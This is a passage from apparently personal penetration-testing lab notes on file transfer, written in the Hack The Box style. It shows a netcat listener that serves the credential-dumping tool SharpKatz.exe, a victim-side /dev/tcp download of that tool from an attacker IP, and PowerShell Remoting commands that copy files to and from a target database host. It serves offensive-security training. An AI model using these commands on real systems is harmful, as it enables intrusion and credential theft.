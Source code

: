 ```bash
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
```bash
# Connecting to netcat using /dev/tcp
victim$ 
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Session File Transfer
I know I used to show about PowerShell file transfers in Windows File Transfer section, but there are possibilities when no HTTP, HTTPS or SMB are available. So here we'll use `PowerShell Remoting` aka WinRM. Usually work on TCP/5985 port for HTTP and TCP/5986 port for HTTPS. 
1. **Check TCP 5985 Port on DATABASE01**
```powershell
PS C:\carnifex17> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
2. **Create a PowerShell Remoting Session to DATABASE01**
```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
3. **Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
4. **Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

